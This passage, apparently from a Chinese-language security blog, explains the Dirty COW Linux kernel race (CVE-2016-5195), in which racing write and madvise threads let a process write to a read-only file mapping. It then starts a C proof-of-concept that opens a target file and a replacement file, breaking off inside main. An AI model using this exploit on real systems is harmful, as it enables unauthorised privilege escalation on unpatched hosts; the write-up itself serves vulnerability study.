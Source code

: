 - [1] 第一个线程尝试向**「仅具有读权限的mmap映射区域写入内容」**，此时便会触发缺页异常，进入到写时复制（COW）的流程当中
- [2] 第二个线程使用 `madvise()` 函数通知内核**「第一个线程要写入的那块区域标为未使用」**，此时由 COW 分配得到的新内存页将会被再次调出

#### 四次获取内存页 & 三次缺页异常

我们不难想到的是，既然这两个线程跑在竞争态，在第一个线程走完两次缺页异常的流程之后，若是第二个线程调用 madvise() 将页表项中的该页再次调出，**第一个线程在第三次尝试获取内存页时便无法获取到内存页，便会再次触发缺页异常**，接下来进入到 `faultin_page()` 的流程获取原内存页

而 `__get_user_pages()` 函数中 `foll_flags` 的 `FOLL_WRITE` 标志位已经**在第二次尝试获取内存页、第二次触发缺页异常**被清除， 此时该函数 **第四次尝试获取内存页**，由于不存在标志位的冲突，**便可以 “正常” 获取到内存页**

接下来便回到了 `mem_rw()`的写流程，此时我们便成功绕过了 `foll_flags`对于读写的检测，成功获取到只有读权限的内存页，**完成越权写**

## 0x02.漏洞利用

有了以上思路，我们的 POC 并不算特别难写，**开两个线程来竞争**即可

我们先通过 mmap 以只读权限映射一个文件，随后尝试通过 ` /proc/self/mem ` 文件直接向进程的对应内存区域写入，这样便可以无视 mmap 设定的权限进行写入，从而触发 COW

### poc

完整 POC 如下：

```c
/**
 * 
 * CVE-2016-5195
 * dirty C-O-W
 * poc by arttnba3
 * 2021.4.14
 *  
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat dst_st, fk_st;
void * map;
char *fake_content;

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    if (argc < 3)
    {
        puts("usage: ./poc destination_file fake_file");
        return 0;
    }

    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open(argv[1], O_RDONLY);
    fk_fd = open(argv[2], O_RDONLY);
    printf("fd of dst: %d\nfd of fk: %d\n", dst_fd, fk_fd);

    fstat(dst_fd, &dst_st); // get destination file length
```